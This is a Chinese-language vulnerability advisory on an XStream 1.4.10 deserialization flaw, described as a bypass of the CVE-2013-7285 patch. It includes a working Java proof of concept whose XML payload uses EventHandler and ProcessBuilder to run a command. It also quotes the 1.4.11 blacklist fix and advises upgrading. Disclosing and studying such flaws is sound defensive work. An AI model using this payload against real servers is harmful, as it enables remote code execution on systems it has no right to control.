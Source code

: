 ## 前言  

XStream是常用的Java类库，用来将对象序列化成XML （JSON）或反序列化为对象。

## 漏洞简介  

Xstream 1.4.10版本存在反序列化漏洞CVE-2013-7285补丁绕过。

## 漏洞危害  

当使用Xstream 1.4.10版本且未对安全框架进行初始化时，攻击者即可通过精心构造的请求包在使用Xstream的服务器上进行远程代码执行。

## 影响范围  

### 产品

> Xstream

### 版本

> Xstream1.4.10版本

### 组件

> Xstream

## 漏洞复现

### PoC

```java
package com.bigo;

import com.thoughtworks.xstream.XStream;

import java.beans.EventHandler;
import java.io.IOException;
import java.util.Set;
import java.util.TreeSet;

/**
 * Created by cfchi on 2019/7/26.
 */
public class Main {
    public static String expGen(){
        XStream xstream = new XStream();
        Set<Comparable> set = new TreeSet<Comparable>();
        set.add("foo");
        set.add(EventHandler.create(Comparable.class, new ProcessBuilder("calc"), "start"));
        String payload = xstream.toXML(set);
        System.out.println(payload);
        return payload;
    }
    public static void main(String[] args) throws IOException {
        expGen();
        XStream xStream = new XStream();
        String payload = "<sorted-set>\n" +
                "    <string>foo</string>\n" +
                "    <dynamic-proxy>\n" +
                "    <interface>java.lang.Comparable</interface>\n" +
                "        <handler class=\"java.beans.EventHandler\">\n" +
                "            <target class=\"java.lang.ProcessBuilder\">\n" +
                "                <command>\n" +
                "                    <string>cmd.exe</string>\n" +
                "                    <string>/c</string>\n" +
                "                    <string>calc</string>\n" +
                "                </command>\n" +
                "            </target>\n" +
                "     <action>start</action>"+
                "        </handler>\n" +
                "    </dynamic-proxy>\n" +
                "</sorted-set>\n";
       xStream.fromXML(payload);
    }
}

```

### 1.4.7版本白名单

![1.4.7版本白名单](img/13.png)

### 1.4.10版本，黑名单未开启

![1.4.10版本，黑名单未开启](img/14.png)

### 1.4.11版本，黑名单开启

> blacklist

```java
private class InternalBlackList implements Converter {
    private InternalBlackList() {
    }

    public boolean canConvert(Class type) {
        return type == Void.TYPE || type == Void.class || !XStream.this.securityInitialized && type != null && (type.getName().equals("java.beans.EventHandler") || type.getName().endsWith("$LazyIterator") || type.getName().startsWith("javax.crypto."));
    }

    public void marshal(Object source, HierarchicalStreamWriter writer, MarshallingContext context) {
        throw new ConversionException("Security alert. Marshalling rejected.");
    }

    public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
        throw new ConversionException("Security alert. Unmarshalling rejected.");
    }
}
```

![1.4.11版本，黑名单开启](img/15.png)

## 修复方案
> 升级Xstream到1.4.11版本

## 参考
https://mp.weixin.qq.com/s/bght8tIwtNqnaidVZjPdSw  
http://x-stream.github.io/changes.html#1.4.11
